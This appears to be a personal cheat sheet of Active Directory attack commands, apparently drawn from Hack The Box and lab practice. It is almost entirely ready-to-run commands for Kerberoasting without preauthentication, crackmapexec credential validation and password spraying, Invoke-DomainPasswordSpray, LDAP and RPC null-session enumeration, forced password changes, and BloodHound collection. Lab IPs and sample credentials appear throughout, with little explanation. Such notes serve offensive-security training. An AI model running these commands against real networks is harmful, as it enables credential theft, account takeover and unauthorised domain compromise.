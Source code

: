   		python3 -m venv impacket-fork
		source ./impacket-fork/bin/activate
		git clone https://github.com/ThePorgs/impacket.git
		cd impacket
		python3 setup.py install

		GetUserSPNs.py -no-preauth jjones (not preauth user) -request -usersfile ../usernames.txt rebound.htb/ -dc-ip 10.10.11.231

* validate creds

		rdp, winrm, smb
   		crackmapexec rdp 192.168.50.110 -u 'nancy.carline' -p 'cowboys'

* local admin
  
		crackmapexec smb 192.168.50.110 -u 'Administrator' -p 'Password321' --local-auth 

* Users auth on host

  		sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
  
* Password policies
   
		crackmapexec smb 192.168.50.110 -u 'albertina.albertina' -p animal --pass-pol 
* Password Spray

  		crackmapexec smb 192.168.50.110 -u users.txt -p passwords.txt --continue-on-success

  		(in windows)
  		https://github.com/dafthack/DomainPasswordSpray

  		Import-Module .\DomainPasswordSpray.ps1
		Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
  
* Ldapdomaindump (1 05)

		ldapdomaindump -u 'vd.local\albertina.albertina' -p animal 192.168.50.110 
		from users.json bloodhount 
		cat 20240201210210_users.json|jq '.data[].Properties | .samaccountname + ":" + .description' -r

* Description whitch RPCCLIENT

  		rpcclient -U '' -N  10.10.10.169                                                 
		rpcclient $> querydispinfo
  
* Change Password

 	   	impacket-changepasswd 'vd.local/lamont.sibeal:passwd'@192.168.50.110 -newpass 'Password123'

* Bloodhoundlist 

		bloodhound-python -d vd.local -u lamont.sibeal -p Password123 -c all --dns-tcp -ns 192.168.50.110
		bloodhound-python -d htb.local -ns 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' -c all
		bloodhound-python -u ldap_monitor -p '1GR8t@$$4u' -d rebound.htb -dc dc01.rebound.htb --zip -c Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn -ns 10.10.11.231
		
		Запуск

		cd /usr/bin && sudo ./neo4j console
